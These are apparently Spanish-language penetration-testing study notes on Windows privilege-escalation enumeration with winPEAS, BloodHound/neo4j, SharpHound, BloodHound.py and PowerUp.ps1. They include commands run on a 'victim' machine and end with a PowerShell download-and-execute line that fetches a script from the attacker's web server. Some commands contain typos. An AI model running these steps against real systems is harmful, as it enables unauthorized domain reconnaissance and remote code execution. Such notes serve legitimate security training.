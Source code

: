 -----
- Tags: #escalada #windows #basico #teoria #practica
-----

# Recopilación exhaustiva

### Una vez probados todos los [[Intentos Básicos]] para ver si encontramos una vía potencial de escalar privilegios y que está no de resultados, podríamos intentar realizar una recopilación exhaustiva de información del sistema con herramientas automatizadas como [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) así como con la realización de **base de datos de grafos** con información del sistema. 

----
# Base de datos de grafos con neo4j

### **Neo4j** es un software libre de Base de datos orientada a grafos, implementado en Java el cual podremos utilizar junto a **Bloohound**, una herramienta visor gráfico que tiene como objetivo realizar un mapeo de todas las relaciones, configuraciones en un Dominio de Windows siendo utilizando para identificar las rutas que pueden ser complejas para identificar, falencias de configuración de usuarios y políticas. 

```bash
sudo apt install neo4j bloodhound 
```

### Una vez instaladas las herramientas, es importante tener en cuenta que se necesita la version de **java 11** para que neo4j funcione correctamente. 

```bash
sudo update-alternatives --config java
```

### Una vez seleccionada la versión 11 de java, podríamos dar comienzo a la realización de nuestra base de datos.

```bash
neo4j console &>/dev/null & disown
```

### Una vez ejecutado el comando, se nos levantará un puerto (**7474**) en donde tendremos una interfaz gráfica en la web, donde deberémos configurar nuestras credenciales de la base de datos, por default las credenciales son **neo4j:neo4j**. 

### Una vez configurada nuestra contraseña, habría que ejecutar el comando: 

```bash
bloodhound &>/dev/null & disown 
```

### Ahora solo quedaría recopilar la información del sistema windows, en caso de tener una **powershell** podríamos hacer uso de la herramienta [sharphound.psq](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1),  una vez descargada esta herramienta, solo habría que subirla a la máquian víctima y ejecutarlo 

#### Para ver como se ejecuta el scrip, desde nuestra máquina linux: 
```bash
cat Sharphound.ps1 | grep function # Output -> Invoke-Bloodhound
cat Sharphound.ps1 | grep "Invoke-Bloodhound"
```
#### Una vez que sepamos como se hace para ejecutar el script: 
```powershell
> Import-Module .\Sharphound.ps1
> Invoke-Module -CollectionMethod All
```

### Este último comando creara un comrpimido **.zip** con la información del sistema le cual deberemos descargar para posteriormente subir a la interfaz del **bloodhound**. 

### Una vez subida la información a bloodhound, está herramienta nos podrá ayudar a detectar posibles rutas para escalar privilegios, entre otras cosas.

-----
# Bloohound-python 

### La herramienta [Bloodhoun-python](https://github.com/fox-it/BloodHound.py) es una herramienta que nos permite realizar la recopilación de información del sistema sin tener acceso al mismo, como en el caso de la creación de **Base de datos de grafos con Neo4j** en donde usamos el SharpHound.ps1 para la creación de un archivo **.zip** el cual tendremos que subir posteriormente a bloodhound. 

```bash
git clone https://github.com/fox-it/BloodHound.py
mv BloodHound.py bloodhound-py
cd !$ 
python3 setup.py install 

mv bloodhound.py bloodhound-python

python3 blodhound-python -c All -u 'username' -p 'password' -ns {target_ip} -d {domain}
```
### Esto lo que hará será crear archivos **json**.

----
# PowerUp.ps1

### [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) es un script en powershell que se encarga de automatizar la búsqueda de posibles vías interesantes para el intento de escalada de privilegio, lo que es muy útil de cara a la recopilación de información.

#### Máquina atacante
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1

# Una vez descargado, podemos editarlo para realizar la invocación del mismo agregando la línea 'Invoke-AllChecks'

python3 -m http.server 80
```
#### Máquina víctima
```powershell
IEX(New-Object Net.WebClient).downloadString('http://{our_uip}/PowerUp.ps1')
```

